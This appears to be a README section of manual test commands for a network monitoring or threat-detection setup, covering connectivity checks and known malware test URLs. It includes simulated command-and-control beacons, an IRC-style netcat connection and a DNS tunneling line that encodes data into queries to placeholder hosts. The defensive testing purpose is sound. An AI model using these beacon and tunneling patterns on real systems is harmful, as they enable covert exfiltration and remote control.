 ## Manual Testing Commands

### 1. Basic Connectivity Tests
```bash
# Test DNS resolution
nslookup google.com
nslookup 8.8.8.8
dig google.com

# Test basic HTTP connectivity
curl -v http://httpbin.org/ip
curl -v https://www.google.com
wget -O - http://httpbin.org/headers

# Test different ports
nc -zv google.com 80
nc -zv google.com 443
nc -zv google.com 22

# Test ping (ICMP)
ping -c 4 8.8.8.8
ping -c 4 google.com
```

### 2. Malicious Domain Testing

#### Known Malicious Test Domains (Safe for Testing)
```bash
# EICAR test file (anti-malware test)
curl -v http://www.eicar.org/download/eicar.com.txt
wget http://www.eicar.org/download/eicar.com.txt

# Google Safe Browsing test URLs
curl -v "http://malware.testing.google.test/testing/malware/"
curl -v "http://testsafebrowsing.appspot.com/s/malware.html"
curl -v "http://testsafebrowsing.appspot.com/s/phishing.html"

# Suspicious TLDs and domains
curl -v "http://suspicious-domain.tk"
curl -v "http://malicious-site.ml"
curl -v "http://bad-domain.ga"
```

#### Command & Control (C&C) Simulation
```bash
# Simulate C&C beacon traffic
curl -v -X POST -H "Content-Type: application/json" \
  -d '{"id":"bot123","status":"alive"}' \
  http://c2-server.example.com/beacon

# IRC-style C&C simulation
nc evil-irc.example.com 6667

# DNS tunneling simulation
nslookup $(echo "secret-data" | base64).tunnel.example.com
```
